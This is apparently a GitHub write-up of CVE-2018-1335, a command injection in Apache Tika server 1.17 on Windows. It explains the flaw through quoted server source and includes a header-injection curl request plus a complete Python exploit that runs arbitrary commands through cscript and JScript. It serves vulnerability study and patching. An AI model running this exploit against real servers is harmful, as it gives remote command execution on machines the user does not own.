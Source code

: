 # CVE-2018-1335

## Description
Bug Overview: This bug leads to command injection vulnerability in Apache Tika -server < 1.18 and uses Cscript.exe to execute Jscript or VBS code and run arbitrary commands.


## Environmental Setup

We downloaded the vulnerable version of the apache tika server in a windows 10 machine (running on azure windows 10 server instance) from https://archive.apache.org/dist/tika/tika-server-1.17.jar and start the tika server with the following command .  

```
java -jar tika-server-1.17.jar
```

## Vulnerability and Exploit
### Exploit-1: Arbitrary Command Execution

We are able to inject arbitrary commands to the tika server through specifically crafted header prefix `X-Tika-OCRTesseractPath`. This header specifies the path to the OCR Tesseract binary `tesseract.exe` but we can inject arbitrary commands through it using the fact that Windows ignores anything provided after double quotes.

The injection HTTP request looks something like
```
curl -T file_example_TIFF_1MB.tiff http://localhost:9998/meta --header "X-Tika-OCRTesseractPath: \"calc.exe\""  
```

The vulnerability is of command injection at tika-server and the entry point of the vulnerability is the HTTP headers.  
The tika-server code handles the HTTP request by checking the header prefix. In case of HTTP request with `"X-Tika-OCR" prefix`, the server code invokes `processHeaderConfig()` function which parses the HTTP request and constructs the `TesseractOCRConfig` object.  
The `doOCR()` function then uses the TesseractOCRConfig object to construct the command for `ProcessBuilder`.  However, the doOCR() function while constructing the command appends the `OCRTesseractPath` (i.e. the passed `calc.exe`) with `tesseract.exe`.  
The resultant command looks like `"calc.exe"tesseract.exe ..."`. But since Windows ignores whatever is appened to it after the quotes, we are able to execute just our injected command `calc.exe`.  

The command constructed by the doOCR() function is as follows.  
```cmd.exe
"calc.exe"tesseract.exe <input.tmp> <output.tmp> -l eng -psm 1 txt -c preserve_interword_spaces=0
``` 


### Exploit-2: JScript Execution

The first temp file passed to the command is the input file uploaded. Thus we could fill the input file with some code and have it executed. However, the problem is the extension of the file is `".tmp"`. Also, uploading an image file with some code would due to verification of the `magic bytes` of the image. The work around is to use `Cscript` that takes the first argument as the script and allows to use `"//E:engine" flag` to specify the script engine so that the file extension does not matter. Also, setting the content type to `"image/jp2"` forces the tika-sever not to verify the magic bytes in the image. This allows an image file containing JScript/VBScript to be uploaded and executed on the server.  

The new command would now look like
```  
"cscript.exe"tesseract.exe <input.tmp> <output.tmp> -l //E:Jscript -psm 1 txt -c preserve_interword_spaces=0
```
This is exploited in Exploit-2 code.

```python 
#!/usr/bin/env python  

import sys 
import requests

host = sys.argv[1]
port = sys.argv[2]
cmd = sys.argv[3]

url = host+":"+str(port)+"/meta"

headers = {"X-Tika-OCRTesseractPath": "\"cscript\"", 
		"X-Tika-OCRLanguage": "//E:Jscript", 
		"Expect": "100-continue", 
		"Content-type": "image/jp2", 
		"Connection": "close"
        }

jscript='''var shellObj = WScript.CreateObject("WScript.Shell");
var execCmd = shellObj.Exec('cmd /c {}');'''.format(cmd)

try:
        requests.put("https://"+url, headers=headers, data=jscript, verify=False)
except:
	try:
		requests.put("http://"+url, headers=headers, data=jscript)
	except:
		print "Something went wrong."
```


## Analysis of Server Code Snippets
### TikaResource.java
  https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tikaserver/src/main/java/org/apache/tika/server/resource/TikaResource.java

```java

public static final String X_TIKA_OCR_HEADER_PREFIX = "X-Tika-OCR"; 	// HTTP header prefix

public static void fillParseContext(ParseContext parseContext, MultivaluedMap<String, String> httpHeaders,
                                        Parser embeddedParser) {
...
	TesseractOCRConfig ocrConfig = null;
	for (String key : httpHeaders.keySet()) {
            if (StringUtils.startsWith(key, X_TIKA_OCR_HEADER_PREFIX)) {
                ocrConfig = (ocrConfig == null) ? new TesseractOCRConfig() : ocrConfig;
                 
                // Parses HTTP headers and constructs TesseractOCRConfig object
                processHeaderConfig(httpHeaders, ocrConfig, key, X_TIKA_OCR_HEADER_PREFIX);	
                
            } else if (StringUtils.startsWith(key, X_TIKA_PDF_HEADER_PREFIX)) {
                pdfParserConfig = (pdfParserConfig == null) ? new PDFParserConfig() : pdfParserConfig;
                processHeaderConfig(httpHeaders, pdfParserConfig, key, X_TIKA_PDF_HEADER_PREFIX);  
            }
        }
```

### TesseractOCRParser.java
https://github.com/apache/tika/blob/86e997510b44f12dc9f90a68aaf583d5d3912892/tika-parsers/src/main/java/org/apache/tika/parser/ocr/TesseractOCRParser.java

```java
private void parse(TikaInputStream tikaInputStream, File tmpOCROutputFile, ParseContext parseContext,
                       XHTMLContentHandler xhtml, TesseractOCRConfig config)
...
        // Uses TesseractOCRConfig object constructed with processHeaderConfig
        doOCR(tmpFile, tmpOCROutputFile, config);	

private void doOCR(File input, File output, TesseractOCRConfig config) throws IOException, TikaException {

        // Construction of command string using TesseractPath
        ArrayList<String> cmd = new ArrayList<>(Arrays.asList(
                config.getTesseractPath() + getTesseractProg(), input.getPath(),  output.getPath(), "-l",
                config.getLanguage(), "--psm", config.getPageSegMode()
        )); 

	for (Map.Entry<String, String> entry : config.getOtherTesseractConfig().entrySet()) {
            cmd.add("-c");
            cmd.add(entry.getKey() + "=" + entry.getValue());
        }
        cmd.addAll(Arrays.asList(
                "-c", "page_separator=" + config.getPageSeparator(),
                "-c",
                (config.getPreserveInterwordSpacing())? "preserve_interword_spaces=1" : "preserve_interword_spaces=0",
                config.getOutputType().name().toLowerCase(Locale.US)
        ));
        ProcessBuilder pb = new ProcessBuilder(cmd);
        setEnv(config, pb);
        final Process process = pb.start(); // Command execution
```
